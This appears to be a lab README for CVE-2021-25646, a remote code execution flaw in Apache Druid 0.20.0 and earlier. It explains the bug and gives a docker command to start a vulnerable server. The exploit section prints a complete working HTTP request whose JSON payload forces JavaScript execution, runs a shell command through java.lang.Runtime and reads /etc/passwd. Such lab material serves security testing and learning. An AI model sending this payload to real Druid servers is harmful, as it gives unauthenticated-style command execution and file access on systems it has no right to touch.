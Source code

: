 # Apache Druid Embedded Javascript Remote Code Execution (CVE-2021-25646)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Druid is an open source, distributed data store that is designed for ingesting high volumes of data to provide instant data visibility, ad-hoc analytics and queries with low latency and high concurrency.

Apache Druid includes the ability to execute user-provided JavaScript code embedded in various types of requests. This functionality is intended for use in high-trust environments, and is disabled by default. However, in Druid 0.20.0 and earlier, it is possible for an authenticated user to send a specially-crafted request that forces Druid to run user-provided JavaScript code for that request, regardless of server configuration. This can be leveraged to execute code on the target machine with the privileges of the Druid server process.

References:

- <https://blogs.juniper.net/en-us/threat-research/cve-2021-25646-apache-druid-embedded-javascript-remote-code-execution>
- <https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw>

## Vulnerable Environment

Execute following command to start an Apache Druid server 0.20.0:

```
docker compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

Send this request to the server:

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

You will see the output of the `id` command:

![](1.png)
